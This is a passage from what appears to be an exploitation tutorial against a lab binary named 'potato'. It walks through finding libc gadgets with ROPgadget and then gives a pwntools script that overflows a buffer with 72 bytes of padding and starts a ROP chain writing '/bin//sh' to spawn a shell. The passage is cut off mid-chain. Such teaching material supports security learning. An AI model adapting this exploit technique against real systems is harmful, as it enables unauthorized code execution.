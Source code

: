 We can see that ROPGadget is looking for a possibility to chain gadgets together to make the execution of a shell possible. With just the potato binary we do not find enough gadgets to build a ROP chain.
To find the necessary gadgets we can look at the dynamically linked libraries used by our program with `ldd`.

```bash
$ ldd potato   
        linux-vdso.so.1 (0x00007f5a76017000)
        libcrypto.so.3 => /lib/x86_64-linux-gnu/libcrypto.so.3 (0x00007f5a75a00000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f5a7580a000)
        libz.so.1 => /lib/x86_64-linux-gnu/libz.so.1 (0x00007f5a75fd9000)
        libzstd.so.1 => /lib/x86_64-linux-gnu/libzstd.so.1 (0x00007f5a75742000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f5a76019000)
```
For our use case we can take a look at the linked `libc.so.6`.

```bash
$ ROPgadget --binary /lib/x86_64-linux-gnu/libc.so.6 --ropchain

[...]

Unique gadgets found: 103072

[...]
```

We can already see that we found a lot more gadgets. `ROPGadget` will build us a ROP chain. This chain can be used in our attack script, for this we simply need to add the offset in the generated ROP chain.

```python
#!/usr/bin/env python3

from pwn import *
from struct import pack
import sys


elf = ELF("./potato_rop")

process = elf.process(["console"], stdin=PTY, aslr=False) # stdin=PTY for "getpass" password input
gdb.attach(process, '''
continue
''')

print(process.recvuntil(b"cmd> ")) # username
process.sendline(b"login")
# test user
process.sendline(b"peter")
process.sendline(b"12345")
print(process.recvuntil(b"cmd> ")) # username
# logged in
#p.interactive()
process.sendline(b"changename")

# Padding goes here
p = b'\x41'*72

p += pack('<Q', 0x000000000010d37d) # pop rdx ; ret
p += pack('<Q', 0x00000000001e7000) # @ .data
p += pack('<Q', 0x0000000000043067) # pop rax ; ret
p += b'/bin//sh'
p += pack('<Q', 0x0000000000038a7c) # mov qword ptr [rdx], rax ; ret
p += pack('<Q', 0x000000000010d37d) # pop rdx ; ret
p += pack('<Q', 0x00000000001e7008) # @ .data + 8
```